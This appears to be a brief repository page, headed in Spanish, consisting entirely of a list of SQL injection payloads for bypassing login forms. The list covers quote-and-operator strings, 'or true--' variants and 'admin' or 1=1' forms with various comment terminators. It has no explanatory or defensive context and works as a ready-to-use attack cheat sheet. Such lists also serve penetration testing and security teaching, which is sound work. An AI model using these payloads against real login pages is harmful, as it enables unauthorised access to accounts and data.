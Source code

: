 
# sql injection 

## Payloads para sql inyection login bypass

```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--

' or ''-'
" or ""-"
" or true--
' or true--

admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
